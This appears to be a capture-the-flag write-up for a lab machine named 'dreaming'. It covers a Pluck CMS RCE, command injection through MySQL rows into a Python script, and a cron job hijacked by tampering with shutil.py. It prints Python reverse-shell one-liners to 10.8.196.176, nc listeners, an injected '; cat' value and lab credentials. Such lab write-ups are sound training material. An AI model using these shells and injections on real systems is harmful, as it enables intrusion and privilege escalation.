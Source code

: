 # dreaming
Solve the riddle that dreams have woven.


## 1. lucien flag

on http://MACHINE_IP/app/pluck-4.7.13/ runs https://github.com/pluck-cms/pluck. To access the admin panel you need to guess the password which is "password". The pluck version 4.7.13 has an RCE vulnerability - CVE-2020-29607, for which there is an exploit available at exploit-db. Just change the ip, port and password in the script and execute, then try to view the uploaded image in the webapp, which will trigger the webshell inside the image. <br>
https://nvd.nist.gov/vuln/detail/CVE-2020-29607 <br>
https://www.exploit-db.com/exploits/49909

the password for the lucien user can be found in /opt/test.py.

## 2. death flag
the /home/death/getDreams.py script is not viewable but there is a copy in /opt/getDreams.py, which has an command injection vulnerability:
```python
# Loop through the results and echo the information using subprocess
            for dream_info in dreams_info:
                dreamer, dream = dream_info
                command = f"echo {dreamer} + {dream}"
                shell = subprocess.check_output(command, text=True, shell=True)   # <-- vulnerability 
                print(shell)
```


create reverse shell script, insert it into the library mysql DB, the login is in the bash history of the lucien user:
```bash
# just output the flag without reverse shell:
mysql -u lucien -plucien42DBPASSWORD -Dlibrary -e "insert into dreams (dreamer, dream) values ('hacker3', '; cat ~/death_flag.txt');"

# create /tmp/reverse.sh:
export RHOST="10.8.196.176";export RPORT=9001;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("sh")'

# make it executable:
chmod +x /tmp/reverse

# insert execution of /tmp/reverse.sh into DB
mysql -ulucien -Dlibrary -plucien42DBPASSWORD -e "insert into dreams values ('hacker', dream='\; /tmp/reverse')"

# to check mysql table:
mysql -ulucien -Dlibrary -plucien42DBPASSWORD -e "select * from dreams;"

# start listener on attacking host:
nc -nvlp 9001

# execute /home/death/getDreams.py as death and trigger reverse shell:
sudo -u death /usr/bin/python3 /home/death/getDreams.py
```

## 3. morpheus flag

/home/morpheus/restore.py:
```python
from shutil import copy2 as backup  # <-- loads shutil library on which death user has write access

src_file = "/home/morpheus/kingdom"
dst_file = "/kingdom_backup/kingdom"

backup(src_file, dst_file)
print("The kingdom backup has been done!")
```

when looking with the lucien user at /var/log/syslog you see that /home/morpheus/restore.py gets executed every minute:
```log
Dec  1 16:00:01 dreaming CRON[65454]: (morpheus) CMD (/usr/bin/python3.8 /home/morpheus/restore.py)
Dec  1 16:00:01 dreaming CRON[65453]: (CRON) info (No MTA installed, discarding output)
Dec  1 16:01:01 dreaming CRON[65458]: (morpheus) CMD (/usr/bin/python3.8 /home/morpheus/restore.py)
Dec  1 16:01:01 dreaming CRON[65457]: (CRON) info (No MTA installed, discarding output)
```

To exploit this write another reverse shell at the top of the malicious library:
```bash
# find the shutil library file in the filesystem:
find / -name shutil* 2>/dev/null
# -rw-rw-r-- 1 root death 51314 Dec  1 16:01 /usr/lib/python3.8/shutil.py

# insert at the top of /usr/lib/python3.8/shutil.py
import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.8.196.176",9002));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")

# On attacking machine start an listener:
nc -nlvp 9002
```



